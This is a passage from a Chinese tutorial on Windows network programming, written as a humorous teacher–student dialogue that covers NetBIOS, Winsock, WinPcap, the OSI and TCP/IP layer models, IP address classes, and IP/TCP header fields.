

```

“结果如图2.1，程序得到本机的 MAC 地址。”
图2.1

“这和我们使用 **ipconfig /all** 命令得到的本机 MAC 地址是一样的，如图2.2。”
图2.2

> “哇！真的啊！NetBIOS 编程这么简单，填充一下命令，用 Netbios() 函数执行就好了。”小菜们说道，“可以一条路走到黑，是我们向往的啊。呵呵。”
>
> “是的，而且 NetBIOS 在小型局域网环境下的实时通信有很高的效率。”老师补充道。
>
> “哦？这么简单，又这么好，为什么我们不基于这个 NetBIOS 讲解编程呢？”
>
> “可惜啊，可惜，NetBIOS 没有路由功能，所以不能用于真正的广域网通信。所以，我们不继续探讨 NetBIOS 了，而是用 Winsock 来实现通信。”

### 2.1.2 基于Windows Socket编程

第二种是基于 Winsock 的网络编程，这种方法使用一套简单的 Windows API 函数来实现应用层上的编程。80 年代初，美国政府的高级研究工程机构（ARPA）给加利福尼亚大学 Berkeley 分校提供了资金，让他们在 UNIX 操作系统下实现 TCP/IP 协议。在这个项目中，研究人员为 TCP/IP 网络通信开发了一个 API（应用程序接口）。这个 API 称为 Socket 接口（套接字）。今天，Socket 接口是 TCP/IP 网络最为通用的 API，也是在 Internet 上进行应用开发最为通用的 API。

90 年代初，由 Microsoft 联合了其他几家公司共同制定了一套 Windows 下的网络编程接口，即 Windows Sockets 规范。它是 Berkeley Sockets 的重要扩充，主要是增加了一些异步函数，并增加了符合 Windows 消息驱动特性的网络事件异步选择机制。Windows Sockets 规范是一套开放的、支持多种协议的 Windows 下的网络编程接口。从 1991 年的 1.0 版到 1995 年的 2.0.8 版，经过不断完善已成为 Windows 网络编程的事实上的标准。目前，在实际应用中的 Windows Sockets 规范主要有 1.1 版和 2.0 版。两者的最重要区别是 1.1 版只支持 TCP/IP 协议，而 2.0 版可以支持多协议。2.0 版有良好的向后兼容性，任何使用 1.1 版的源代码、二进制文件、应用程序都可以不加修改地在 2.0 规范下使用。

> 老师说道：“WinSocket 是我们的重点学习对象。以后大部分的例子都是基于 WinSocket 实现的，我们会做详细的介绍。但还有一些其他的编程方法。”

### 2.1.3 基于WinPcap编程

第三种是直接网络编程。比如利用 WinPcap 等网络数据包构造技术，我们可以直接构造出在网络上传送的报文，这样我们能深入到链路层或网络层上去实现网络编程。

> “链路层和网络层是什么意思啊？”小菜们睡眼朦胧地问道。
>
> “我们讲解网络体系的时候就会明白，它涉及到 TCP/IP 的分层结构。”

### 2.1.4 基于物理设备编程

第四种是基于物理设备的网络编程，即 MAC 层编程接口。这就涉及到硬件的编程了。

## 小结：

> 老师说道：“上面提到的几种方法，具体的实现大相径庭，但都只是编程的方法和所处的层次不同。”

“NetBIOS 基于会话层；WinSocket 一般基于应用层，但原始套接字也可以基于更低的网络层；WinPcap 基于网络层或者链路层；物理设备当然是基于物理层了。而在我们的课程中，主要是使用 Windows Socket 编程。”

> “哎呀呀，什么层，什么层的又来了。”小菜们嚷道，“老师还没解释呢！”

“好啦。分层是人类解决问题的一种重要思想。之所以使用分层，第一个原因是人类重新发明一个轮子是可行的，但完全没有必要，不仅是因为我们懒惰，更是为了配合软件工程学的一些基本原则；第二个原因是分层可以隐藏复杂的实现；第三个原因是分层可以导致不同的实现，引入竞争，从而促进技术不断地发展。”

老师继续说道：“在实际的生活中，大家都在自觉或不自觉地使用分层的思想。比如上一节课我们讲过，在 Windows 系统下编程的时候，就是一个典型分层的例子。Windows 系统提供了用户态和核心态，一般我们编程，只使用到用户态的接口，不用和底层的物理构件打交道，可以专注于应用程序功能的开发与扩展。用户态提供的 API 外，还进行了封装，比如 MFC、VCL，等等，如图2.3。”
“而数据库的开发，也是一个典型的分层。微软 ODBC、BDE、ADO 的接口，供我们专门应用于数据库程序的开发，而不用管具体的数据库究竟是 SQL Server、Access 还是 Oracle”，如图2.4。

“我们的人员管理、项目管理也是分层的例子。比如一个公司的技术总监，只和项目经理间有接口，而各个项目经理带领自己的团队，进行项目的开发，并负责向技术总监报告。但各个技术人员对技术总监来说是屏蔽的。这样分层后可以让各人都专注于自己的职务，创造最大的效益。”

“哦！原来分层有如此多好处，而且我们一直用它！”小菜们点头道。

“所以，网络协议的设计也采用了分层的思想，每一层分别负责不同的通信功能，可以做到简化和统一。”老师说道，“我们来看看网络通信协议和分层模型吧。”

## 2.2 网络通信协议原理和结构

任何一项改变世界的成果，都是一批批科学家持续不断研究的结果。Internet 掀起了人类第三次计算革命——信息革命的热潮，当然先辈们付出了艰辛的努力。

为了让整个世界的计算机和网络连通，科学家们提出了一系列网络通信的方案、模型和解决方案。当然一些早已被淘汰，一些被后继者替代，一些只是小范围地沿用。

“在那个充满革新的时代，不知道是不是也以 SCI 检索和 EI 检索为标准。”老师摇摇头说道，“一些成功的模型使用至今，成为 Internet 普及的支柱，也更是工业上的规范。其中，最著名的模型是 OSI 七层模型和 TCP/IP 四层模型。”

### 2.2.1 ISO/OSI 七层模型

ISO/OSI（International Standard Organization/Open System Interconnection）是国际标准化组织 ISO 为了连通网络环境之间的资源而制定的“开放系统互联”参考模型。其目的是制定好这个开放的模型后，各网络设备厂商就可以遵照共同的标准来开发网络产品，最终实现彼此兼容。

ISO/OSI 模型从提出到 1984 年定稿经历了很长的时间，一共七层。每层功能和对应相关功能如图2.5。

| 层 | 功能 |
|---|---|
| Application（应用层） | 提供标准服务，比如 QQ 聊天、文件传送、视频对话 |
| Presentation（表示层） | 掩盖不同系统间的数据格式不同性，指定独立的数据传输格式；比如可以完成不同的 Unix 下的 QQ 和 Linux 下的 QQ 相互聊天 |
| Session（会话层） | 管理用户会话和对话，控制用户间逻辑连接的建立和挂断 |
| Transport（传输层） | 管理网络中端到端的信息传送；通过错误纠正和流控制，提供可靠且有序的数据包传送 |
| Network（网络层） | 定义网络设备间如何传输数据；根据唯一的网络设备地址路由数据包 |
| DataLink（数据链路层） | 定义操作通信连接的程序；封装数据包为数据帧；监测和纠正数据包传输错误 |
| Physical（物理层） | 定义通过网络设备发送数据的物理方式；作为网络媒介和设备间的接口，定义光学、电气以及机械特性 |

图2.5

## 小结：

“啊啊啊，真抽象。”小菜们伸伸懒腰说道。

看着小菜们不以为然的样子，老师说：“不要小看这 OSI 七层模型啊，这可是科学家们心血的结晶啊，当时他们不知掉了多少头发，熬出了多少血丝，费了多少点卡才练就的等级啊。哦，sorry，贫到 online 游戏去了。总之，不夸张地说，OSI 七层模型虽然是基于网络通信的，但人类间任何的通信都可以抽象成这七层。”

“哦？任何通信？？”

“对，不仅仅是计算机网络上通信，打电话、电信网的通信，就是我们任何实际中通信的例子，都可以用这七层来解释。”

老师笑道：“啊，大家有怀疑的思想很好。”老师顿了一下，继续说道，“我随便举个例子，比如我给你们讲课，也是我向你们通信的过程，就可以用这七层模型来解释。”如图2.6。

- “首先应用层的数据，就是我讲课的内容；”
- “然后表示层，就是我把我想说的内容，用中文表达出来；”
- “会话层，我注意你们的反应，如果发现你们不大能听清楚我的话，我就会大声一点，或者转个方向，让我能和你们保持连接；”
- “传输层保证传送的正确性，如果你们没理解某句话，说：‘什么？’我就会重复一遍。”
- “网络层寻址，如果我不叫某个人的名字，就是想说给所有的各位听；如果加上某个人的名字，就是想和他单独对话。”
- “数据链路层，就是喉咙震荡在空气中形成声波。”
- “物理层当然就是空气将我的声波进行传播了。”

“嗯，还真的是耶，虽然有点牵强……”小菜们点点头。

“再举个例子，比如你正在看的这本书，通过我到你的手中，更是OSI七层模型的经典过程。”

- “应用层，当然就是你正在看这本书的内容。”
- “表示层，就是出版社把内容排版、印刷、装订好，表示成书的样子。”
- “会话层，你给编辑部提出邮购，提供自己的地址，这就是会话。”
- “传输层，发行人员到邮局把书包装起来，写上印刷品标签，再写上你的通信地址，避免传递出错。”
- “网络层，邮局根据你的地址分发到下一站。”
- “数据链路层，邮局把书和其他去相同地方的东西装箱一起运输——陆运、空运、海运。”
- “物理层，邮递员亲自肩挑背扛传送到你的地方啦。”如图2.7。

| 层 | 说明 |
|---|---|
| Application（应用层） | 提供你想说的、讲课的内容 |
| Presentation（表示层） | 用中文表达讲话的内容 |
| Session（会话层） | 注意每个同学是否听得见，保持连接 |
| Transport（传输层） | 注意每个同学是否听得正确，如果没听清楚的话，说：“什么？”就会重说一遍、重复一遍 |
| Network（网络层） | 不加名字，就说给所有的各位听众；如果加上某个人的名字，就是想和他单独对话，只给他 |
| Data Link（数据链路层） | 喉咙震荡在空气中形成声波 |
| Physical（物理层） | 空气将声音进行传播 |

| 层 | 说明 |
|---|---|
| Application（应用层） | 书的内容 |
| Presentation（表示层） | 出版社把内容排版、印刷、装订好，表示成书的样子 |
| Session（会话层） | 提出邮购，提供自己的地址，这就是会话 |
| Transport（传输层） | 邮局把书包装起来，写上印刷品标签，再写上通信地址，避免传递出错 |
| Network（网络层） | 邮局根据地址分发到下一站，按点投递 |
| Data Link（数据链路层） | 邮局把书和其他去相同地方的东西装箱一起运输 |
| Physical（物理层） | 邮递员将它送到你的地方 |

图2.6

图2.7

“哦，还真是这样！老师总结得还真好啊！”小菜们终于由衷地佩服起来了。

“哈哈哈哈，这全靠我锐利的眼光，敏捷的身手，熊的力量！鹰的眼睛！豹的速度！但是，可惜……”

“可惜什么？”

“可惜的是ISO/OSI出炉得太晚了，事实上Internet的标准已经在使用了，那就是TCP/IP协议。”

## 2.2.2 TCP/IP协议

ISO/OSI模型虽然考虑得很周全，但在现在的Internet上，实际使用的是TCP/IP协议。名称是TCP/IP协议，但TCP协议和IP协议只是众多协议中的两个，因为它们比较重要，所以就用TCP/IP来称呼这整个协议簇了，其实TCP/IP协议是包含了很多协议的。

### 2.2.2.1 TCP/IP历史

有了这样的依据，美国于1969年便赋予ARPA这一项任务，建立一个系统，让分散在各地且完全不同的电脑系统可以无误地联系在一起。

在二十世纪六十年代后期和七十年代早期的大量研究下，TCP/IP获得长足的发展和应用，最终成为Internet实际的标准。TCP/IP发展史上的一些重大事件如下：

- 1970年，ARPANET主机开始使用网络控制协议（NCP），这就是后来的传输控制协议（TCP）的雏形。
- 1972年，Telnet协议推出，Telnet用于终端仿真以连接相异的系统。在二十世纪七十年代早期，这些系统使用不同类型的主机。
- 1973年，文件传输协议（FTP）推出，FTP用于在相异的系统之间交换文件。
- 1974年，传输控制协议（TCP）被详细规定下来。TCP取代NCP，它为人们提供了更可靠的通信服务。
- 1981年，Internet协议（IP）（又称IP版本4，即IPv4）被详细规定下来。IP为端到端传递提供寻址和路由功能。
- 1982年，国防通信署（DCA）和ARPA建立了传输控制协议（TCP）和Internet协议（IP）作为TCP/IP协议套件。
- 1983年，ARPANET将NCP替换为TCP/IP。
- 1984年，域名系统（DNS）推出，DNS可将域名（如www.example.com）解析为IP地址（如192.168.5.18）。
- 1995年，Internet服务提供商（ISP）开始向企业和个人提供Internet接入。
- 1996年，超文本传送协议（HTTP）推出，万维网使用HTTP。
- 1996年，第一套IP版本6（IPv6）标准发布。

#### 2.2.2.2 协议层次

和OSI模型不同，TCP/IP只有四层，分别是Application（应用层）、Transport（运输层）、Internet（网络层）和Network（链路层）。基于这样的层次，TCP/IP中经常用协议的流程如图2.8。
### 2.2.2.3 TCP/IP中的重要协议

“既然这个协议簇叫做TCP/IP，那其中最重要的协议当然就是TCP和IP协议了。”老师说道，“同socket一样，IP、端口是很重要，但又是绝不相同的概念，我们一定要分清楚！”

### IP地址的独白

大家好，我是IP地址，全称是网络协议地址。IP（网际协议）是我大哥，我很佩服它，因为著名的TCP/IP协议就是以我大哥的名字命名的。当时包括ARP、UDP、ICMP等各大协议华山论剑，商讨协议林的盟主，我大哥武功盖世，德高望重，但虚怀若谷，在万般推脱不成下，只好担任了“协议林”一盟主——其实TCP有什么了不起的，它能跑起来，全是我大哥IP的功劳。而我，IP地址，是我大哥IP协议中的一段。虽然我很小——只占整个IP协议很少的一部分，但不要小看我，因为只有通过我才能确定Internet网上成千上万台机器的确切位置，只有通过我路由器才知道数据该往哪里转送，只有通过我主机间才能互相通信。

我就是主机在Internet网上的身份证！

我和大哥对信息化世界的建设都是死心塌地、忠诚不二的，为此贡献了我们的全部青春和岁月。只要告诉了我们要去的远端主机，那么无论天涯海角、万水千山，我们一定会将信息准确无误地送到。这不，大哥又叫我出发了，风萧萧兮易水寒——错了，错了，应该是，青山不改，绿水长流，各位后会有期。附我和大哥的合影，如图2.9。
图2.9

## 2.4 IP的分类

互联网上的每个接口必须有一个唯一的Internet地址（也称作IP地址）。IP地址长32 bit。Internet地址并不采用平面形式的地址空间，如1、2、3等。IP地址具有一定的结构。五类不同的互联网地址格式如图2.10所示。
图2.10

这些32位的地址通常写成四个十进制的数，其中每个整数对应一个字节。这种表示方法称作“点分十进制表示法（Dotted Decimal Notation）”。例如，一个C类地址为：211.83.154.70。区分各类地址的最简单方法是看它的第一个十进制整数。而多接口主机具有多个IP地址，每个网卡接口都对应一个IP地址，所以不能说某台机器的IP是多少，而要说机器上的某块网卡的IP是多少，如图2.11。

| 类型 | 范围 |
|---|---|
| A | 0.0.0.0 到 127.255.255.255 |
| B | 128.0.0.0 到 191.255.255.255 |
| C | 192.0.0.0 到 223.255.255.255 |
| D | 224.0.0.0 到 239.255.255.255 |
| E | 240.0.0.0 到 247.255.255.255 |

图2.11

普通的IP首部长为20个字节，除非含有选项字段。

1. 版本占第一个字节的高四位，IPv4的取值为4，IPv6的取值为6。
2. 首部长度占第一个字节的低四位，表示IP头的DWORD个数，如果要转化为字节需要乘以4，比如IPv4的首部长为20个字节，这个值就为5。
3. 服务类型，前3位为优先字段，现在已经被忽略。接着4位为TOS字段，用来表示最小延迟、最大吞吐量、最高可靠性和最小费用。
4. 总长度字段是指整个IP数据报的长度，以字节为单位。利用首部长度字段和总长度字段，就可以知道IP数据报中数据内容的起始位置和长度。
5. 标识用来唯一地表示发送的每一个数据报。通常发一个就加一。
6. 存活时间TTL是封包的生存时间，每通过一个路由器，就会被减一，但这个值为0的时候被丢弃，并由ICMP通知源主机。这样可以防止广播风暴的形成。
7. 协议的定义取值如下：

```c
#define PROTOCOL_TCP 0x06 // TCP
#define PROTOCOL_UDP 0x11 // UDP
#define PROTOCOL_ICMP 0x01 // ICMP
#define PROTOCOL_IGMP 0x02 // IGMP

























```

8. 校验和用于验证传输的正确。计算方法为，首先将校验和的字段置0，然后将IP头的每16位进行二进制取反求和，将结果保存在校验字段。验证的方法是按照相同的方法取反求和，得到的结果应该是每位全是1，如果不是这样，则表示数据传输出错，就丢包并要求重发。
9. 源IP地址和目标IP地址表示源主机的IP和目的主机的IP，都为网络字节顺序。

“在IP协议之上，就是TCP协议了，TCP协议中最重要的概念是端口。”

#### 端口地址的独白

哈哈，我是端口地址，就是port，是TCP的手下。我的作用是区分机器上的各种服务。服务器要提供服务，必须要打开对应的端口——像FTP服务是21端口，Web服务是80端口。有了端口，客户端才可以连接，传输数据。

IP有什么了不起，一台机器可能有好几十种服务，没有我端口和TCP，它根本不知道数据该往哪个服务走。我在TCP中的位置，大家一定要记住哦，如图2.12。
图2.12

“TCP协议是面向连接、可靠的通信协议。它通过发送分组接收应答，来得知接收方已经接收到数据分组；通过序列化，保证分组按顺序到达。”

“协议段的解释如下：”

1. 源端口号：网络字节顺序，指明源端口号；
2. 目的端口号：网络字节顺序，指明目的端口号；
3. 序号：TCP发送方向接收方发送的封包顺序号；
4. 确认序号：接收方向发出的应答顺序号；
